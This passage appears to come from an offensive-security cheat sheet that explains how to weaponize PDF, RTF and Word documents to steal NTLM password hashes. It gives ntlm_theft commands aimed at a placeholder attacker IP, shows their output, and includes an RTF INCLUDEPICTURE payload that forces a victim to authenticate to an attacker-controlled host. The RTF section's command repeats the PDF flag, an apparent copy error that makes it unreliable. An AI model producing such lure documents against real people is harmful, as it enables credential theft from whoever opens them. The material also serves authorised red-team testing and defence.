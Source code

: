 ```bash

```
{% endtab %}

{% tab title="ntlm_theft" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) (Python) tool can be used to generate a PDF file to steal NTLM(NTLMv1/NTLMv2) Hashes. It requires user to open the document and accept the popup.

```bash
ntlm_theft.py --generate pdf --server $ATTACKER_IP --filename "@FILENAME"
```
{% endtab %}
{% endtabs %}

### RTF documents

{% tabs %}
{% tab title=".rtf" %}
Weaponizing .rtf file, which will attempt to load an image from the attacking system

```
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://<ATTACKING_IP>/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endtab %}

{% tab title="ntlm_theft" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) (Python) tool can be used to generate a RTF file to steal NTLM(NTLMv1/NTLMv2) Hashes. It will attempt to load an image from the attacking system:

```bash
ntlm_theft.py --generate pdf --server $ATTACKER_IP --filename "@FILENAME"
```
{% endtab %}
{% endtabs %}

### MS Word documents

{% tabs %}
{% tab title="ntlm_theft" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) (Python) tool can be used to generate docx files to steal NTLM(NTLMv1/NTLMv2) Hashes. It will generate three docx files using the includepicture, remotetemplate, framset technics:

```bash
$ python ntlm_theft.py --generate docx --server $ATTACKER_IP --filename "@FILENAME"
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Generation Complete.
```
{% endtab %}
{% endtabs %}
